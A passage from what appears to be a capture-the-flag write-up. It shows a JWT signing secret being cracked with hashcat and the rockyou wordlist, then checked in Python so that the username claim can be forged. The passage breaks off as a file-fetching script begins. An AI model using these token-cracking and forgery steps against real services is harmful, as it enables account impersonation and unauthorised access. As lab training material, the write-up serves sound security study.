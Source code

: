 To make any of this useful, I’ll need to be able to change the username
submitted to the site, which is read from the JWT token. The signature has to
validate to do that, so I’ll need the secret used to sign it. I’ll try to
crack it with `hashcat`. It automatically detects it as a JWT, mode 16500, and
cracks the secret to “123beany123”:

    
    
    $ hashcat jwt /usr/share/wordlists/rockyou.txt 
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:
    
    16500 | JWT (JSON Web Token) | Network Protocol
    ...[snip]...
    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjY0MjE1MzgxfQ.9jp7Obm_6-Z3A3GyueqnbMBX26R7_qKNoLXR5JjT7Ew:123beany123
    ...[snip]...
    

I’ll validate it works using Python:

    
    
    oxdf@hacky$ python3
    Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
    [GCC 9.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import jwt
    >>> token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjY0MjE1MzgxfQ.9jp7Obm_6-Z3A3GyueqnbMBX26R7_qKNoLXR5JjT7Ew'
    >>> jwt.decode(token, '0xdf')
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
      File "/usr/lib/python3/dist-packages/jwt/api_jwt.py", line 91, in decode
        decoded = super(PyJWT, self).decode(
      File "/usr/lib/python3/dist-packages/jwt/api_jws.py", line 155, in decode
        self._verify_signature(payload, signing_input, header, signature,
      File "/usr/lib/python3/dist-packages/jwt/api_jws.py", line 223, in _verify_signature
        raise InvalidSignatureError('Signature verification failed')
    jwt.exceptions.InvalidSignatureError: Signature verification failed
    >>> jwt.decode(token, '123beany123')
    {'username': 'christopher.jones', 'iat': 1664215381}
    

The secret of “0xdf” causes an exception, but the secret of “123beany123”
works.

#### Script

I’ll write a quick script to take a file name and fetch it in [this
video](https://www.youtube.com/watch?v=j6G214-J6TE):

The final script is:

    
    
    #!/usr/bin/env python3
    